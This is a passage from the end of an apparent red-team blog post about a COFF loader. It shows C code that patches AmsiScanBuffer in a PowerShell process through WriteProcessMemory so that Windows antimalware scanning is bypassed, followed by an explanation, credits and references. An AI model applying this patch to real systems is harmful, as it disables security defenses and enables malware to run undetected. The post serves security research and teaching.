 The following lines used to perform the byte patching 

```c++
HANDLE hProc = NULL;
	SIZE_T bytes;
	hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, pid);
	PVOID amsiScanBuffAddr = KERNEL32$GetProcAddress(KERNEL32$LoadLibraryA("amsi.dll"), "AmsiScanBuffer");
	unsigned char amsiScanBuffBypass[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; // mov eax, 0x80070057; ret
	BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiScanBuffAddr, (PVOID)amsiScanBuffBypass, sizeof(amsiScanBuffBypass), &bytes);
	
```

<p align="justify">
The <code>KERNEL32$LoadLibraryA</code> will be used in order to load  <code>amsi.dll</code> and from there using the <code>KERNEL32$GetProcAddress</code> we will get the address of <code>AmsiScanBuffer</code>. The patch is handled from <code>KERNEL32$WriteProcessMemory</code> using the handler acquired from <code>KERNEL32$OpenProcess</code> for the specific <code>powershell</code> PID
</p>

The full code can be found in my <a href="https://github.com/xen0vas/COFF33">github page</a> 

---

Thank you for reading ! If you found this blog post useful don't forget to donate 

<a href="https://www.buymeacoffee.com/xen0vas" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>


---
## Credits 

- <a href="https://github.com/boku7">Bobby Cooke (boku7)</a> 
- <a href="https://trustedsec.com/blog">TrustedSec</a>   
- <a href="https://institute.sektor7.net/">Sektor7</a>  
- <a href="https://www.cobaltstrike.com/">CobaltStrike</a>    

---

## References

1. <a href="https://otterhacker.github.io/Malware/CoffLoader.html">https://otterhacker.github.io/Malware/CoffLoader.html</a> 
2. <a href="https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#coff-file-header-object-and-image">https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#coff-file-header-object-and-image</a> 
3. <a href="https://courses.cs.washington.edu/courses/cse378/03wi/lectures/LinkerFiles/coff.pdf">https://courses.cs.washington.edu/courses/cse378/03wi/lectures/LinkerFiles/coff.pdf</a> 
4. <a href="https://learn.microsoft.com/en-us/windows/win32/debug/pe-format?ref=labs.hakaioffsec.com#coff-file-header-object-and-image">https://learn.microsoft.com/en-us/windows/win32/debug/pe-format?ref=labs.hakaioffsec.com#coff-file-header-object-and-image"</a> 
5. <a href="https://github.com/trustedsec/COFFLoader?ref=labs.hakaioffsec.com">https://github.com/trustedsec/COFFLoader?ref=labs.hakaioffsec.com</a> 
6. <a href="https://trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs">https://trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs</a>
7. <a href="https://www.cobaltstrike.com/blog/simplifying-bof-development">https://www.cobaltstrike.com/blog/simplifying-bof-development</a>
8. <a href="https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6">https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6</a>
9. <a href="https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/">https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/</a>
10. <a href="https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-patching-technique">https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-patching-technique</a>
